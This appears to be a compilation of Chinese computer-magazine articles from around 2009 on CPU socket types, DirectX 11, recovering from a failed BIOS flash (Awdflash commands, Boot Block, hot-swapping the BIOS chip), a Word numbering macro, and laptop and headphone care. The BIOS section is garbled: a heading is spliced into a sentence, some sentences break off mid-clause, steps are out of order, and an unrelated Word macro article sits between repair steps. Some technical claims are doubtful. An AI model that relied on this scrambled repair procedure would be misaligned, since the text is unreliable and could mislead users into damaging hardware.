尽管英特尔（Intel）已发布新一代微架构处理器Core i7，2009年将扩展至主流级市场，但旧有Socket 775处理器却仍未打算退下来，且有意要延续至2011年，成为未来英特尔低阶主打，英特尔在未来数年恐将出现3种不同处理器接口窘境，现有4系列芯片组亦必须支撑至2011年，平台规格能否持续保持竞争力，成为主板合作伙伴近期最大疑虑。



早期的处理器均采用了针脚的方式与主板相连接。随后，又相继改成了类似于插槽形式的“slot”接口。然而，“slot”接口没多久又改回了针脚方式，直到现在AMD依然坚守针脚接口，而Intel已经改成了类似于触点的LGA插座。不过无论是针脚式还是触点式，当前的处理器接口都是属于针脚范畴，对应到主板上就有相应的插槽类型。但是由于处理器接口类型不同，在插孔数、体积、形状都有变化，所以不能互相接插。不过需要注意的是，这样板卡形式的处理器插座并没有流行太久，第一，由于受到专利的限制，极大地限制了其发展。同时，板卡状的安装方式很大程度上限制了处理器的设计发展，因此并没能延续多久就从市场上消失了。



部分针脚折断为什么还能使用？许多爱折腾电脑的玩家一定会有这样的情况，譬如在安装处理器时不慎将某几个针脚折断了。但是安装到主板上后，电脑依然可以正常的使用。这是因为那几个被折断的针脚恰恰是不起作用的针脚，所以即使被折断后，处理器依然能正常使用。

### 并不是所有针脚都起作用

用针脚式与主板相连接是许多电脑玩家脑中最容易浮现出的连接方式。不过目前也只有AMD处理器采用针脚方式与主板插座相连接。其根据针脚数量不同，分别命名AM2、AM2+以及AM3。以最常见的AM2接口为例，它具备了940个针脚。但是对于那么多的处理器针脚来说，并不是每个针脚都是起作用的，这是因为处理器厂商在设计处理器时，必然会考虑到今后一段时间内的功能扩展和性能提高，预留一些暂时不起作用的针脚以便今后改进。因此原则上来说，虽然处理器性能的高低和针脚数量或接口类型有一定的关系，但是这也不是必然的情况。譬如AMD最新的羿龙II处理器，部分型号采用了AM3接口，但是这个新款的AM3接口仅仅有938个针脚，比AM2还少了2个针脚。

### 触点式接口会使得性能提高

细心的玩家一定会发现，现在Intel处理器的接口并没有像AMD处理器那样采用传统意义上的“针脚”形式，而是一个个圆形的触点取代了以往的针状插脚，这种接口也被叫做LGA接口。为什么Intel舍弃传统的针脚式而选择了触点式呢？这是因为随着处理器工作频率越来越高，针脚数量同样也是成正比的增长，因此针脚所产生的信号噪声就越严重。由于这是针脚方式与生俱来的缺陷，所以要克服噪声的影响，突破这一障碍，就只能更换连接方式，故此从针脚变为触点。触点的连接方式可以均衡分担信号，对频率的提升很有益处，能够使处理器在不提高成本的情况下加大针脚的密度，同时为处理器和主板的发展提供更大的空间。虽然采用触点的连接方式可以有效避免处理器针脚折断的问题，但是这种风险转嫁给了我们的主板。从很多实际例子可以看出，LGA接口过于娇贵脆弱，用户在安装或更换处理器时稍不留神就会损坏LGA插座，从而出现无法开机的情况，更为严重的后果则是处理器与主板同时报销。因此很多主板的LGA插座上都有挡板保护，同时也造成了Intel主板成本高于AMD主板的问题。

处理器针脚不断改变从某种意义上来说，也是为电脑整机的发展起着极大的推进作用。相比之下，传统的针脚的安装方式虽然存在针脚会被折断的隐患，但是在安装时稍加留意的话，这样的情况完全是能避免的，不过传统的针脚是否真的会影响到处理器性能的发展还尚待观察。另外从技术层面上来说，LGA接口的确先进，虽然有着相比传统针脚式接口更大的安装风险，但任何一种改革都势必存在一定的风险，从性能上长远的角度来看，随着接口制造工艺的不断提高，LGA触点式接口势必会成为未来的主流接口。



## DX11，引领游戏再一次升级

对于电脑使用者来说，只要操作系统是Windows，那么一定不会对DirectX感到陌生。在DirectX的各大版本中，DirectX 10可以说是较为失败的版本，尤其是游戏玩家，DirectX 10给他们带来的更多是失望。因此，大家对即将发布的DirectX 11充满了期待。微软将于今年第二季度推出Windows7的RC版，DX11有望一同推出，配合DX11的显卡，玩家可以抢先体验到DX11的震撼效果。

### 增加多线程优化 多核处理器有用武之地

DirectX 11将对处理器的多线程进行特别优化，这是DirectX 11中一个最令人关注，也可以说是最“与时俱进”的技术，因为这意味着处理器越来越多的核心在DirectX 11游戏中有了用武之地。长久以来，DirectX与多核处理器的发展似乎是两条并行线，DirectX游戏并没有因为多核处理器的使用而捞到什么好处，而这一切在DirectX 11中将改变。

DirectX 11对多线程优化的最直接好处就是提高3D渲染的效率，因为3D游戏场景中的不同对象可以由各自的专用线程进行处理、管理，因此，针对同一个3D游戏，双核、四核、八核乃至十六核处理器的处理效果是不一样的。这种效果可以通过GTX 280来大致了解一下。GTX 280支持硬件级别的多线程加速，如果每个线程在工作时达到100%的负荷，那么其转换高清的效率是不支持多线程的顶级GPU的18倍。

### 让GPU独立渲染减轻CPU负担

3D游戏画面的本质是多边形，但是GPU本身不能独立地生成多边形，事实上，GPU更确切的任务是生成“像素”，多边形的生成更多地是由CPU完成。DirectX 10在一定程度上改变了这种局面，因为DirectX 10中加入了几何渲染单元，但它还是严重依赖CPU，因为几何渲染单元与顶点渲染单元的根本不同只在于：几何渲染单元的处理结果是图元，用通俗的话说，几何渲染单元对顶点进行的是批量处理，其本质上还是对CPU中获取多边形信息进行复制处理。

而DirectX 11则不同，DirectX 11加入了三个专门的渲染单元，用来互相合作自动生成大量的曲线和多边形，最后输出。当然严格意义上说，这仍旧不是GPU独立渲染多边形，但是在这种模式下，CPU只要提供多边形的控制点即可，余下的简单而重复的“描绘”工作交给GPU去做。所造成的结果就是，降低了CPU的负荷，CPU可以“有精力”负担游戏的其它处理，比如AI。与多线程优化一样，这样做无疑也将提高3D游戏的渲染效率。当然，这样的处理模式对显卡提出了更高的要求。

### SM5.0灵活处理游戏设计

DirectX 11将带来SM 5.0，这是针对DirectX 10/10.1中的SM 4.0/SM 4.1的技术升级。对于游戏开发者而言，SM 5.0的意义非凡。SM 4.0带来了整数运算和位运算的功能，SM 4.1则加入了对MSAA的直接采样和控制，而SM 5.0将提出面向对象编程的概念，并且支持双精度数据，从而降低开发人员管理动态着色器等的难度，改善开发体验。总的来说，SM 5.0、包括之前的SM 4.0/SM 4.1主要是针对开发人员的，但是这不意味着终端游戏玩家就不会从SM 5.0中得到什么好处。有一个猜想是，由于游戏开发变得简单和易于灵活处理，因此很可能游戏开发时，设计人员会考虑提供针对集成显卡和独立显卡等不同环境的“开关”，从而令使用较低配置电脑（比如笔记本）的用户也可以用某种妥协的方式运行那些“杀手级”游戏。

### 提供物理加速着色，支持所有GPU

在高清转换、Photoshop处理加速、科学计算方面，DirectX 11将提供优化支持。所有的Windows应用程序都可以是物理加速程序。想想看，用DirectX 11版本的WinRAR压缩超大文件会是何等“快”感？从这个角度而言，DirectX 11与3D游戏似乎关系不大。当然，这也不尽然。从CUDA的例子中可以看出，通用计算已经用到了游戏的物理运算之中，因此，不排除微软将Compute Shader也作为3D游戏物理运算的工具。鉴于此，我们可以预期，较之历代DirectX平台（包括DirectX 10），DirectX 11平台上的3D游戏将是最“真实”的。

## 主板BIOS升级失败如何自救？

升级BIOS有助于电脑更新主板技术，以及帮助解决某些故障现象。但如果刷新、升级BIOS程序不能成功完成，或在刷新过程中突然断电，就会导致电脑出现无法开机等故障。下面介绍刷新、升级BIOS的相关注意事项，以及升级失败后的修复方法。

### 为什么要升级BIOS？

在当今软、硬件产品层出不穷，各种标准无所不在的情况下，也许刚刚推出的主板就会对某些新硬件或软件（一般为操作系统或者驱动程序）不支持，或者不兼容。如：原先电脑不支持从USB设备中启动，通过升级BIOS就能让电脑

具备该功能。

虽然公版的BIOS软件技术比较成熟，但有些主板厂商为了提高产品性能，增强功能，对其BIOS会添加一些独特的模块或程序，这些设计往往存在一些BUG现象。为了解决这些问题，主板厂商也就必须提供更新的BIOS给用户。比如，某些主板厂商在BIOS中添加了对HDMI接口、RAID磁盘阵列的支持，但原先推出的BIOS对这些技术支持不完善，就会在随后逐渐推出技术完善的BIOS版本，供用户升级。

增强功能是指一些主板厂商给BIOS添加一些实用的功能，以方便用户使用。比如，某BIOS升级后支持OEM LOGO显示；再如某BIOS升级后添加了“恢复精灵”这样的实用功能。性能提升主要包括两个类别：一个是对BIOS软件的代码进行了优化设计，使其执行效率更高，性能得到提升；另一个是对BIOS的一些默认参数进行了优化设置。重新刷新BIOS，或升级BIOS，可以解决一些电脑启动故障。如果BIOS程序受到损坏，或者故障是由于BIOS版本太旧，就需要我们对BIOS进行重新刷新或升级。





### 升级BIOS应注意哪些事项

刷写BIOS要求十分严格，如果在刷新的过程中出现差错就会造成严重的后果，所以在升级BIOS时，操作要特别慎重。下面介绍在升级BIOS之前需要注意的事项与对系统环境的必要的准备。

在刷写BIOS之前，应该先将主板上防BIOS写入的跳线打开，以及在BIOS设置程序中将防BIOS写入的“Flash Write Protect”选项设为“Disabled”。另外，最好将其他优化BIOS的设置参数也屏蔽掉（具体设置可以参照主板说明书），确保刷写的顺利。



除非是使用相应的技术软件，例如技嘉开发的@BIOS程序，能在Windows下刷写BIOS之外，都要在纯DOS环境下进行BIOS的刷写工作，即不加任何配置和驱动的DOS环境。



一定要使用与电脑的主板型号相符的BIOS程序文件，否则将会导致刷写失败。此外，也一定要使用匹配的BIOS刷写工具，一般情况下原厂的BIOS程序文件和刷新工具是配套的，所以最好一起下载。刷写前一定要做好备份，这样如果刷写不成功，还有恢复的希望。一些报刊建议在软盘或U盘上进行刷写，然而由于软盘或U盘的可靠性不如硬盘，如果在刷写过程中不能读取数据或只读出一半，就会造成刷写失败。因此，最好在硬盘上进行刷写操作。

如果在刷写BIOS的过程中遇到某些意想不到的问题，千万不要关掉电源或者重新启动，只要重复运行BIOS的刷写程序，直至成功为止即可。如果经过多次重复刷写之后，仍然无法解决## 备份与恢复BIOS程序文件

> 小提示
一般主板厂商的官方网站会根据其出售的不同主板，提供相对应的BIOS程序文件和刷写工具，用户可留意电脑主板官方网站的相关信息。

解决问题，这样有可能是BIOS的程序文件不对，或其他需要注意的事项没有做好，这时可先将事先备份好的原版BIOS文件重新写回BIOS内，然后再想办法解决。写入过程中不允许停电或半途退出，所以如果条件允许的话，尽可能使用UPS不间断电源，以防不测。

### 1.备份BIOS程序文件

Award BIOS是最常见的主板BIOS程序，它的刷写工具文件名一般为Awdflash.exe。在DOS下执行Awdflash.exe命令，即可进入BIOS刷新程序主界面。





从主界面中，可发现“File Name to Program”一栏的提示，这里是让用户输入要写入芯片的BIOS文件名称。如果这时不想刷新BIOS，可以直接按下回车键。之后，刷新程序会出现是否保存原BIOS程序的提示“Do You Want To Save BIOS(Y/N)”，这里选择“Y”。





选择之后，就会出现“File Name to Save”的提示信息，这时只要键入想要保存的文件名，再按下回车键即可完成BIOS的备份了。

### 2.还原BIOS程序文件

备份完成后，返回刷新主界面，并在“File Name to Program”一栏中，输入要写入芯片的BIOS文件名称，按回车键，程序就会对新的BIOS程序与原主板进行校验，如果屏幕提示“The Program Files Part Number doesn‘t match with your system”，不要强行刷新，因为刷新程序经过校验认为该BIOS文件并不适合本机主板使用，否则会有不可预见的问题。

> 小提示
如果准备刷新BIOS，在备份完成BIOS程序文件之后，不要急于退出或重新启动系统，只要保留原系统状态即可。这样可以方便进行下一步的刷新工作。

校验完成，提示是否确定更新“Are You Sure To Program (Y/N)”，按下“Y”即可开始向芯片写入BIOS。BIOS写入完成后，按F10退出返回DOS即可。

> 小提示
在刷新过程中，有两条进度条、三种状态符号及时报告用户刷新情况。其中，白色网格为刷新完毕，蓝色网格为不需要刷新的内容，红色网格为刷新错误。如果在BIOS写入的过程中出现红色网格，千万不要轻易重新启动，一定要退出刷新程序再重新进行刷新工作，直到完全正确为止。否则，重启后电脑将陷入瘫痪。

现在软驱使用不多，为了方便修复，Boot开始支持硬盘，即可从硬盘上进行恢复，这时开机后，屏幕有显示，提示从硬盘恢复。

### 用Boot Block块恢复

### 1.了解Boot Block

### 2.用Boot Block块恢复

Boot即Boot Block块，Boot Block块是借鉴分块式的BIOS结构，人为在BIOS芯片中保留了一个区域，该区域中保存有BIOS系统中最重要的启动信息。现在高版本的刷新程序的默认值就是刷新时不更新BIOS的Boot Block块。

使用自动批处理或安装ISA显卡，然后用软盘驱动器启动系统进入DOS环境，手动输入Awdflash bios.bin /py/sn/f进行恢复，但这时的Boot只支持软驱和ISA显卡。

从硬盘恢复BIOS，我们必须注意刷新工具和BIOS程序文件名的命名，否则我们将BIOS文件拷到硬盘，也是无论如何设置，系统还是一样的提示，无法恢复BIOS。

随着BIOS版本的不同，Boot Block对驱动器的支持也不同。在以前的老主板上，如果BIOS损坏，开机没有任何显示，但软驱有读盘动作，此时我们可以

随着BIOS版本的升级和AGP显卡的普及，Boot支持AGP显卡和软驱。接着，由

在下载和准备刷新工具时，无论下载的刷新工具是什么文件名，都要将其改为Awdflash.exe，因为这是Boot默认的文件名。此外，还应该使用UltraEdit 32软件，打开下载的BIOS程序文件（bin文件），打开文件后，查看文件的头部，记下头部显示的文件名。接着，把BIOS文件名改为显示的文件名即可。这是因为不同的BIOS文件，其原始名是不相同的。



文件准备好之后，将刷写工具和BIOS程序文件放到C盘的根目录下，接着重新启动电脑。Boot Block块在提示到“BIOS Auto-Recovering”的时候，按回车键，就会提示找到刷写工具。这时再按回车键确认，Boot Block块就会运行刷写工具，并自动搜索BIOS程序文件，搜索到文件后，就会将文件还原到CMOS芯片里，修复损坏的BIOS程序。



小知识
热插拔的工作原理是：当计算机正常启动后，BIOS已完成它的历史使命，如果这时冒险把BIOS芯片拔出来，也不会影响系统的正常工作。这时，把损坏的BIOS芯片插回主板，运行相应的刷新程序就可以重新把BIOS文件刷回BIOS芯片。

### 热插拔法——更换CMOS芯片

如果BIOS升级失败，或者被病毒破坏后，用Boot Block引导块也不能修复故障，可进一步使用“热插拔法”将故障修复。

### 1.取出CMOS芯片

首先，将损坏的CMOS芯片从插座中小心拔出。对于DIP（双列直插）封装的芯片，用一把小型平口起子，在芯片的两边插入慢慢撬起。注意要两边对称慢慢撬，一次不要撬起太多，以免将插脚折断。







对于PLCC封装的芯片，由于它的特殊封装形式，要使用专用的芯片拔取夹来操作。用ROM拔取器夹住BIOS芯片的一角及其对角，压住拔取夹，笔直地将芯片从插座中向上拔出。注意夹住的必须是芯片非斜角所在的一角，拔取器的爪应尽可能深入插座中。

> > 小提示
> 拔取芯片时，需相当谨慎小心，不正确的处理或是用力不当，可能会损伤主板或BIOS芯片本身。

### 2.安装CMOS芯片

拔出CMOS芯片后，仔细查看芯片的引脚有无弯折，如有，将它们掰正。然后，将一块能正常运行的CMOS芯片插入CMOS插槽。在安装时，不要插得太紧，只要保证每一只引脚都和插座刚好接触到就行了。接着，打开电源启动电脑，并让电脑进入DOS操作系统。

> > 小提示
> 在BIOS芯片上，其陶瓷封装的一边有一个缺口，表示芯片管脚的排列方向，插入之前必须保证芯片和插座上的缺口处方向一致，这一点非常重要，如果插反了会连带烧毁BIOS芯片甚至主板。

然后，拿住芯片没有引脚的两头，小心地快速拔起之前安装的BIOS芯片。记住，一定要小心，而且最好尽量保证两边同时被拔起。接下来，将受损的BIOS芯片插入主板上的插座，这回可以将BIOS芯片插紧一些。在插入时，要对准方向，千万不能使引脚短路。



### 3.刷写BIOS文件

重新安装损坏的BIOS芯片后，在DOS系统中输入刷新BIOS的命令AWDFLASH，输入已准备要恢复主板的BIOS文件名，更新BIOS。等写入结束后，CMOS芯片中的BIOS程序就被修复了。

### 4.使用热插拔的注意事项

由于刷新程序具有BIOS与主板的一致性检查功能，如果找到的主板和原来的主板型号不一致，刷新程序会拒绝运行。遇上这种情况，可以尝试使用高版本的刷新程序。



要注意的是，在不同的主板上进行“热插拔”操作时，可能有的主板并不一定支持刷新升级失败的BIOS芯片，最常见的原因是芯片擦写的电压不同和BIOS芯片的种类不同。例如，有些主板的擦除电压是5V，而有些则达到12V，在这两种不同电压的主板中刷新就不会成功。其次，CMOS芯片有各种各样的封装形式，在采用热插拔的方法进行刷新前，必须查看BIOS接脚是否兼容。

此外，在进行热插拔时，需要找合适的BIOS刷写工具和BIOS程序文件。软件是否对应是很重要的，如果主板的CMOS是2MB的，而采用的刷写软件只支持1MB，那么刷写就会失败。所以，在使用热插拔方法维修损坏的CMOS芯片时，应该先了解主板的CMOS芯片兼容性，并准备适当的CMOS芯片和BIOS刷写工具。

### 数字编号，轻松输入

文/孙萌

当我们使用Word来写各种材料时，经常会在Word文档中输入一些数字编号（如“I.”、“Ⅱ.”、“Ⅲ.”等），输入这些数字编号时，人们或者是在Word中单击菜单“插入→数字”命令，打开“数字”对话框并选择合适的编号输入；或者是先调出输入法的软键盘（亦称“虚拟键盘”）来输入某种特殊类型的编号。想想看吧！利用这两种方法，即使是输入一个数字编号，也得单击鼠标N次才可以实现，实在是太麻烦了。那么，怎样才能实现数字编号的快速输入呢？还是为其专门打造一个菜单选项比较好，这样我们选择对应的菜单选项，就可以一次实现多个数字编号的输入工作了。下面，笔者就给大家介绍一下如何来实现。

- 第一步：运行Word 2003（其他版本操作类似），然后单击菜单“工具→自定义”命令，打开“自定义”对话框并切换到“命令”选项卡，接着选中“类别”下边列表框中的“新菜单”选项（如图A处），接着将图B处的“新菜单”选项拖到菜单栏中的某个分支下（如“文件”菜单分支下）；再右击“文件”菜单分支下的“新菜单”选项，将“命名”右边文本框内的文字修改为与该菜单功能相对应的文字——“编号”，最后关闭“自定义”对话框即可。



- 第二步：单击菜单“工具→宏→Visual Basic编辑器”命令，打开“Visual Basic编辑器”窗口，接着展开其右边“工程”面板中的“Normal→模块→NewMacros”分支，接着在右边的代码窗口输入以下代码：

```
Sub BianHao()
Selection.TypeText Text:="I."
Selection.TypeParagraph
Selection.TypeText Text:="Ⅱ."
Selection.TypeParagraph
Selection.TypeText Text:="Ⅲ."
Selection.TypeParagraph
End Sub
```

### 代码说明：

- 1.第二、三行代码的含义是：运行BianHao宏时，在Word文档中光标所在的位置插入字符串“I.”并执行回车操作；其余代码的含义和这两行是类似的。
- 2.如果想在运行BianHao宏时多插入几个相同类型的编号，可先复制第二、三行代码，然后将鼠标定位在字符串“End Sub”的左边，接着执行粘贴操作并按下回车键，将粘贴的代码中的字符串“I.”修改为其他的编号（如“Ⅳ.”）就可以了。

- 第三步：再一次打开图中所示的“自定义”对话框，然后选中C处的“宏”选项，接着将“命令”下边列表框中的“Normal.NewMacros.BianHao”宏拖到“文件→编号”菜单分支下，接着右击该分支下的“Normal.NewMacros.BianHao”选项，将“命名”右边文本框内的文字修改为“编号Ⅰ”，最后关闭“自定义”对话框就可以了。

现在关闭并重新启动Word 2003，如果我们需要在Word文档中的某个位置插入编号时，只须单击菜单“文件→编号→编号Ⅰ”命令，就可以在光标当前所在的位置插入编号“I.”、“Ⅱ.”、“Ⅲ.”了。当然，我们也可以仿照第二、三步的操作，复制图2窗口中的代码并在代码的末尾回车，接着执行粘贴操作，再将粘贴的代码中的字符串“BianHao”修改为“BianHao1”、“I.”、“Ⅱ.”、“Ⅲ.”等字符串修改为其他不同类型的编号（如“1）”、“2）”、“3）”等），最后将“自定义”对话框中“宏”分支下“Normal.NewMacros.BianHao1”宏拖到“文件→编号”菜单分支下并对该分支下新出现的菜单选项执行重命名操作。这样我们单击“文件→编号”分支下的新添加的菜单选项时，就可以在Word文档中当前光标所处的位置插入对应的编号了。

怎么样，我们现在在Word文档中插入多个编号时，只须轻点鼠标就可以实现，是不是比原来方便多了呢？

### 用编程器修复

如果主板的BIOS已经被破坏，或者想升级却又担心万一出问题，那么用编程器升级、修复是最安全、最方便的方法。
使用编程器，可以在任何一台电脑上升级或修复BIOS。当烧录好后，只要插在主板上即可使用。如果发现不正常，也可以重新烧录，避免升级和热插拔带来的危险。现在的编程器类型很多，有并口的高档编程器，也有插卡式的、性能一般的普及型编程卡。如果用户没有BIOS编程器，可以到当地的电脑专业维修店维修。

> 小提示
BIOS损坏后，我们还可以与代理商或主板生产厂商联系。如果主板处于保修期，可能他们还会提供免费维修服务，即使不在保修期之内，也可向他们咨询所需要的BIOS芯片，用它替换损坏的芯片即可。绝大多数主板厂商都会向用户提供BIOS芯片，有的BIOS网站也提供这种服务。



## 爱本有道——笔记本维护保养方案

在KFC、星巴克，经常会看到这样的一群人：面前摆着绚丽的笔记本，手边一杯香浓的咖啡，在慵懒的阳光下，享受着一下午的专属时间。而在写字楼，你却可以看到另外一群人：手里提着或抱着笔记本，脚步匆匆，穿梭于各办公场所。可以这么说，轻巧、便携的笔记本早已成为了我们生活和工作中必不可少的好朋友、好帮手。

众所周知，笔记本电脑都是十分娇贵的。稍稍不留意，它便会发发脾气、闹一闹，严重的时候，它还有可能干脆给自己放个长假、罢罢工。到那时，就该轮到我们手忙脚乱、干瞪眼了。所以还是平时好好爱护它吧。

### 一、本本保养之道

就让我们一起来分部分看看笔记本电脑该如何清洁和保养吧！

#### 外壳保养

首先，我们应该关注的是笔记本电脑的外壳。笔记本电脑外壳裸露在外，容易与外界发生摩擦，稍不注意便容易伤痕累累。而且经常会附着空气中的尘埃，因此不仅在日常使用过程中需要注意，还需要经常进行清洁，另外我们还可以为它加上一个保护膜。

##### 1.清洁外壳的最佳步骤

- **第一步：** 断开笔记本电脑的电源，让其处于非工作状态；
- **第二步：** 用软毛刷将笔记本电脑表面轻轻擦拭一遍，抖落外壳上附着的大颗粒尘埃物；
- **第三步：** 将专业清洁剂均匀喷到擦拭棉布上，然后按次序对本本外壳进行全面擦拭，顽固污渍建议反复擦拭；
- **第四步：** 擦拭完毕后置于通风口，待其自然风干后，方可继续使用。

至于笔记本电脑外壳的保养，最常使用的方法还是为心爱的笔记本贴上一层保护膜。可以采用透明贴膜，也可采用充满个性的图案贴膜，只要你自己喜欢就行。

##### 2.外壳贴膜的步骤

- **第一步：** 将笔记本电脑彻底清洁；
- **第二步：** 将贴膜的一边撕开，附着在电脑的一条边上，用手反复按压几次，固定好；
- **第三步：** 用一只手按压住已贴好的那端，另一只手缓慢地撕开贴膜，移动双手按压，直至整个外壳都被膜覆盖住；
- **第四步：** 将气泡尽可能排出，膜尽可能铺展平整。

注意：贴膜必须在彻底清洁工作完成后进行，贴膜是一定要按照一定的方向，慢慢地将膜附着于本本外壳上，千万不能在此过程中保留过多的气泡。

#### 屏幕保养

本本的屏幕是一个很容易就被弄脏的地方，特别是遇上那些喜欢“指点江山”的人士，它的命运就更加多舛了，留下几个手印是经常会发生的事。其实屏幕的清洁方法和外壳的清洁方法很像，只是屏幕比起外壳来会更加的娇嫩，更容易被腐蚀。所以化学试剂以及一些腐蚀性的液体是千万不能接触屏幕的，那样很容易将屏幕上附着的薄薄的化学涂层给破坏掉。另外，在使用专业清洁剂擦拭屏幕时，力度也必须足够轻，因为用力过大，屏幕是很容易被压碎的。这点必须特别注意。

而对于笔记本电脑屏幕的保养，似乎也只有贴膜方法是最有效的。这点与本本外壳的贴膜相似，在此就不再赘述了。另外，将本本屏幕长时间置于太阳下曝晒，也是它的致命伤。

#### 键盘保养

键盘是我们使用笔记本电脑时接触得最多的地方，键盘缝隙中聚集一些灰尘也是很正常的事情，就需要经常进行清洁工作了。

- **第一步：** 轻轻将本本立起来，将大颗粒固体抖落下来；
- **第二步：** 用干净的软毛刷仔细地刷一遍键盘缝隙，把能见度较大的灰尘扫除掉；
- **第三步：** 用吹气球将缝隙中隐藏的灰尘吹出来，这一步骤可多次重复，直至干净；
- **第四步：** 对于顽固的污渍，比如油渍，就最好能采用专业清洁剂，用软布清洗即可。

平时使用的时候也请手下留情，不要用力地敲击，如果将键帽弄坏了，更换起来可是件比较麻烦的事。还要特别注意键盘的防水工作，若是不小心侵入了水，记住必须立马切断电源，将键盘倒置，使水流出；或者打开键盘盖，仔细检查，必要时可用吸水纸将水吸干。但如果侵入的水实在太多的话，还是建议及时送修比较保险。另外，也可以贴膜保养，避免这类事情的发生。

#### 其余部位的保养

外壳、屏幕和键盘是本本最重要的三大部位，它们的清洁与保养需要给予特别的关注。除此之外，还有一些较易被忽视的部位也是很重要的。

##### 1.触摸板

在使用触摸板时需要保持手部清洁，手腕上也最好不要佩戴手表之类较为尖锐的物品，以免接触时引发不必要的摩擦，留下一道道难以愈合的划痕。另外在使用笔记本电脑时，不要将水杯之类的物品置于触摸板附近，因为触摸板是凹陷的，如果溢出的水流入便不太容易引出了。而触摸板的清洁则直接用软布轻轻擦拭即可，必要时可使用专业清洁剂。



##### 2.光驱

笔记本电脑的光驱是很精细的，不仅价格较高而且容易损坏。为了更好地保护它，建议大家不要用它来读取劣质光盘，清洁它时也不要使用劣质的清洁剂。

一般情况下，劣质的光盘容易造成读盘磁头粉末的脱落，减少光驱的使用寿命。另外，用完光盘后一定要及时将其取出；在其工作时，也不要突然对其进行停止操作。

##### 3.硬盘

对于硬盘的保养，最主要的就是防震。所以在笔记本电脑平时的使用中，最好是将本本平放在桌面上。在本本的使用过程中也尽可能不要去移动它，所以应该尽量避免在汽车、火车等震动幅度较大的交通工具上使用笔记本电脑。



### 二、夏季本本保养绝招

现在天气慢慢热起来了，炎炎夏日眼看就要到来。该怎么样让笔记本逃避酷暑的纠缠，过个舒舒服服的清凉一夏？除了以上介绍的日常清洁与保养方法外，夏天独特的保养方法也很值得大家关注。

#### 汗水油脂少碰我

炎炎夏日，气温很高。人们稍稍活动便会大汗淋漓，更不用说笔记本电脑本身还能散发一定的热量啦。出汗，大量的油脂也随之冒出来。一时间，笔记本的外壳和屏幕就经常会留下一个个顽固的、闪着油光的指印，久久不能除去。要知道，油脂对笔记本电脑的塑料外壳可是有很强的腐蚀性的，颜色不均、出现斑点这样的后遗症可是会让笔记本电脑失去漂亮容颜的。所以我们在夏日里使用笔记本电脑，最好是在使用前用清水把手洗干净，把表面的油脂过滤掉一些，用干爽洁净的手去触碰心爱的本本。当然，这样做的效果是有限的，我们在使用一段时间后，笔记本表面出现了一些油光，我们还是需要使用专业清洁剂来给它洗个澡，把表面的油污好好擦干净，保持住它原本光鲜的外表。在没有专业清洗剂时，使用高浓度、易挥发的酒精也能达到相同的效果，并且还不容易因为侵水对笔记本电脑造成伤害。

#### 夏天也要防潮

这点很容易被人忽视。在很多人的印象中，夏天是炎热的、干燥的。殊不知，夏季的雨水也很多，并且容易在午后、傍晚与我们不期而遇，又大又急。如果此时你的笔记本电脑不能很好的防水防潮，那这个被誉为“笔记本电脑头号杀手”的家伙也将毫不留情地侵入你的本本里进行大扫荡，残酷的现实必将令你后悔不已。

所以帮你的本本挑选一款实用的便携包，让这把“本本的保护伞”陪它度过这个多雨的夏季还是十分必要的。况且这个保护伞还可以帮忙抵挡平日空气中悬浮的尘埃对本本产生的伤害，一举多得。

#### 高温环境远离我

炎炎夏日，酷暑难当，人人都希望能摆脱高温，当然本本也不例外。相信很多朋友都不知道，高温环境也能对笔记本电脑的正常工作产生不小的影响。我也是在查阅资料时才知道：笔记本电脑的锂电池充电的最佳温度范围是0度到45度，而放电的最佳温度范围是零下20度到60度，长期处于高温环境下的本本，它的锂电池性能便会不断下降，充电一次后，电池所能维持的使用时间也将大大缩短，就连该电池的正常使用寿命也将受到不同程度的威胁。所以我们建议大家在夏日使用笔记本电脑时，最好能选择清凉的室内环境，有空调最佳。

同时也最好能直接使用电源适配器对电脑进行供电，使高温环境对锂电池的危害降至最低，更好地保护心爱的本本。

#### 自身降温很重要

终于远离了高温环境，不过笔记本电脑自身散发的热量也是不可小觑的。千万不要忽视这一点，自残可远比他伤更残酷，自身降温也是很重要了。笔记本电脑最大的散热部分便是CPU，所以做好CPU的降温工作也就显得尤为重要了，相信很多用户都是采用降温软件来达到这一目的的。现在市场上此类降温软件的效果可真的是良莠不齐，有的软件只是简单地屏蔽掉一些我们平时不怎么用到的功能，却还经常引发系统的逻辑错误，让使用者苦不堪言。选对产品很关键，像CPU Cool、CpuIdle、Waterfall这几款在用户中口碑不错，还是值得一试的。另外，还有不少使用中的小细节，也能帮助笔记本电脑有效降低自身的温度。我们可以自行设置定时关闭显示器时间、系统等待时间；关闭未使用的外部设备和端口；长时间不再使用最好就直接将本本关闭，若只是短时间不使用，就可应用笔记本电脑的挂起模式，既减少本本的散热，降低它自身的温度，还能节约用电，更环保。

#### 夏天防雷击同样重要

夏天雷雨多，在电闪雷鸣时使用笔记本电脑还是需要引起足够重视的。

雷雨天气很容易造成电源电流的不稳定，相信谁都不希望雷电所造成的瞬间高压将心爱的本本毁坏。在此，各位最好使用带有自动过压断电保护器的接线板。这样就算是瞬间产生强电压，也不能伤害到笔记本电脑了。

上面介绍了笔记本电脑常见的日常清洁和保养方法，还特别针对即将到来的炎炎夏日本本将会遇到的几大骚扰情况，给大家提供了一些破解之道，希望能引起大家足够的关注。笔记本电脑是值得我们用心来爱护的。

别拿耳机不当“干部”——耳机保养全面看

文/TMG gyn

耳机作为廉价的电子设备，却被广泛运用到各种电子设备上，大到台式电脑，笔记本电脑、小到手机、MP3、MP4、PSP、NDSL等，无一离得开耳机，但是很多人在耳机的使用中不注重对耳机的保养，被称为“耳机杀手”，还有很多人对耳机的使用和保养存在着许多误区。那么该怎样来延长耳机的使用寿命呢？下面，我们就为大家介绍一下耳机的保养和使用以及保养中存在的误区，希望能够对您有所帮助。

耳机的保养

### 1.插头的保养

耳机的插头是一个非常敏感的部位，因为一旦它出现了问题就会造成接触不良，大大影响使用效果(见图1)。

现在，有不少耳机在制作的过程中为了减少阻抗采用了镀金的插头，尽管这样，在使用中过度的磨损也会使耳机的音质受到影响，效果大打折扣。因为这样的金属层一般都很薄，如果进行反复摩擦，就会使脆弱的金属层受到严重损伤，进而使耳机受到严重损伤，也会造成输出设备的触头松动，使得接触不良。所以，在耳机的使用过程中要减少耳机的插拔次数，不要总把耳机拔下来。

另外，在耳机的保存过程中要尽量避免酸性、碱性或是潮湿的环境，因为这样的环境也会使插头的金属层遭到破坏，进而影响耳机的使用寿命。

### 2.连接处的保养

